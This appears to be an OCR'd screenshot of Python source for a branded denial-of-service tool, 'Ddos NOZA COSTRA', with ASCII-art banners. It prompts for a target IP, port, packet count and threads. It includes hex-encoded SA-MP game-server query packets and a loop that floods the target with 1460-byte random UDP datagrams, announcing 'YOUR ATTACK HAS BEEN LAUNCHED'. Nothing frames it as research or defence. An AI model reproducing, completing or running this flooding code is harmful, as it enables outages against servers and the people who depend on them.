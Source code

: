 os.system("clear")
print("""
"\[\033[0;35m\]"

𝐃𝐝𝐨𝐬 NOZA COSTRA

𝕋𝕆𝕆𝕃𝕊 𝔹𝕐 ℕ𝔸ℝ𝕌𝕋𝕆

╔═══╗─╔╗──────
╚╗╔╗║─║║──────
─║║║╠═╝╠══╦══╗
─║║║║╔╗║╔╗║══╣
╔╝╚╝║╚╝║╚╝╠══║
╚═══╩══╩══╩══╝
╔═══╗╔╗─╔╗─────╔╗──
║╔═╗╠╝╚╦╝╚╗────║║──
║║─║╠╗╔╩╗╔╬══╦═╣║╔╗
║╚═╝║║║─║║║╔╗║╔╣╚╝╝
║╔═╗║║╚╗║╚╣╔╗║╚╣╔╗╗
╚╝─╚╝╚═╝╚═╩╝╚╩═╩╝╚╝

╱╱▏┈┈╱╱╱╱▏╱╱▏
▇╱▏┈┈▇▇▇╱▏▇╱▏
▇╱▏▁┈▇╱▇╱▏▇╱▏▁
▇╱╱╱▏▇╱▇╱▏▇╱╱╱
▇▇▇╱┈▇▇▇╱┈▇▇▇╱ 



""")

ip = str(input(" Target Ip:"))
port = int(input(" Target Port:"))
choice = str(input("Thb Tnik  Serveur? (y/n):"))
times = int(input(" Packet:"))
threads = int(input(" Threads:"))
fake_ip = '182.21.20.32'
#Starting Attacking
Pacotes = [codecs.decode("53414d5090d91d4d611e700a465b00","hex_codec"),#p
                       codecs.decode("53414d509538e1a9611e63","hex_codec"),#c
                       codecs.decode("53414d509538e1a9611e69","hex_codec"),#i
                       codecs.decode("53414d509538e1a9611e72","hex_codec"),#r
                       codecs.decode("081e62da","hex_codec"), #cookie port 7796
                       codecs.decode("081e77da","hex_codec"),#cookie port 7777
                       codecs.decode("081e4dda","hex_codec"),#cookie port 7771
                       codecs.decode("021efd40","hex_codec"),#cookie port 7784
                       codecs.decode("081e7eda","hex_codec")#cookie port 7784 tambem
                       ]
def run():
	data = random._urandom(1460)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			print("[!]TEAM NOZA COSTRA TNIK KOLL!!")
